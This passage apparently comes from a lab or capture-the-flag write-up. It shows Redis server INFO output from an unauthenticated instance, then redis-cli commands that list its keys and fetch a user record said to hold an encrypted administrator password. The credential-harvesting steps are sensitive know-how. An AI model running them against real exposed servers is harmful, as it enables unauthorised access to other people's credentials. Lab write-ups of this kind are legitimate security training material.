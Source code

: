 ```bash
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok

# Stats
total_connections_received:6
total_commands_processed:2
instantaneous_ops_per_sec:0
total_net_input_bytes:140
total_net_output_bytes:5973101
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0

# Replication
role:master
connected_slaves:0
master_repl_offset:0
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.13
used_cpu_user:0.30
used_cpu_sys_children:0.00
used_cpu_user_children:0.00

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```
2. Listing those keys
```bash
10.10.10.237:6379> keys *
1) "pk:ids:MetaDataClass"
2) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
3) "pk:ids:User"
4) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
```
3. Getting value of those keys, gives an encrypted password for administrator:
```bash
10.10.10.237:6379> get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
```